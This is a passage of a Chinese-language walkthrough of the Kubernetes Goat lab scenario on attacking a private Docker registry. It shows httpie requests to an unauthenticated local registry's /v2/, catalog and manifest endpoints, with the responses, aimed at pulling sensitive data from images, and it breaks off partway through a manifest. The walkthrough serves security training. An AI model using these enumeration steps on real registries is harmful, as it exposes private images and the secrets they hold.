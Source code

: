 ```yaml
          hostPath:
            path: "/usr/bin"
```

## Attacking private registry

![registry](https://madhuakula.com/kubernetes-goat/assets/images/scenario-7-fbcf2b81257e7185ddfa569b9089e34d.png)

### Problem

获取到镜像中的敏感数据，
场景中提到的三个命令

[GET /v2/](https://docs.docker.com/registry/spec/api/#api-version-check) 是 最小的 endpoint，用来提供版本支持，

```
http http://127.0.0.1:1235/v2/
HTTP/1.1 200 OK
Content-Length: 2
Content-Type: application/json; charset=utf-8
Date: Tue, 09 Aug 2022 12:52:47 GMT
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff
{}
```

[GET /v2/\_catalog](https://docs.docker.com/registry/spec/api/#listing-repositories) 是用来列出所有的 repository，

```
http http://127.0.0.1:1235/v2/_catalog
HTTP/1.1 200 OK
Content-Length: 81
Content-Type: application/json; charset=utf-8
Date: Tue, 09 Aug 2022 12:52:09 GMT
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff

{
    "repositories": [
        "madhuakula/k8s-goat-alpine",
        "madhuakula/k8s-goat-users-repo"
    ]
}
```

[GET /v2/<name>/manifests/<reference>](https://docs.docker.com/registry/spec/api/#manifest) 是用来获取 manifest

```
http http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest

HTTP/1.1 200 OK
Content-Length: 14728
Content-Type: application/vnd.docker.distribution.manifest.v1+prettyjws
Date: Tue, 09 Aug 2022 12:54:08 GMT
Docker-Content-Digest: sha256:f993c17115d3fd3ee6ca95086b0fafe69abf637145a7d11bbfd1663ebcba9ff6
Docker-Distribution-Api-Version: registry/2.0
Etag: "sha256:f993c17115d3fd3ee6ca95086b0fafe69abf637145a7d11bbfd1663ebcba9ff6"
X-Content-Type-Options: nosniff

{
   "schemaVersion": 1,
   "name": "madhuakula/k8s-goat-users-repo",
   "tag": "latest",
   "architecture": "amd64",
```